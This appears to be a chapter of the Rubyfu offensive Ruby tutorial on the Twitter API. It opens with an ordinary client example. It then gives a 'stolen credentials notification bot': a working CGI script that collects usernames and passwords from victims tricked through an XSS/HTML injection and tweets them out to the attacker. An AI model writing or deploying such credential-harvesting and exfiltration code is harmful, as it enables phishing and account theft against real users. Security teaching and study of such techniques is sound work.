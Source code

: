 # Twitter API
Dealing with twitter API's s really useful due information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with twitter APIs. To do so, please refer to the official [twitter development page][1].

- To install twitter API
```
gem install twitter
```

## Basic Usage
**rubyfu-tweet.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user 
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
![](webfu__twitterAPI1.png)


**Your turn**, tweet to @Rubyfu using above example. Tweet your code and outputs to **@Rubyfu**.

## Building Stolen Credentials notification bot
We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script][2] that takes that stolen credentials then tweet these credentials to us as notification or log system
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Refere!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: https://dev.twitter.com/oauth/overview
[2]: http://rubyfu.net/content/module_0x4__web_kungfu/index.html#cgi
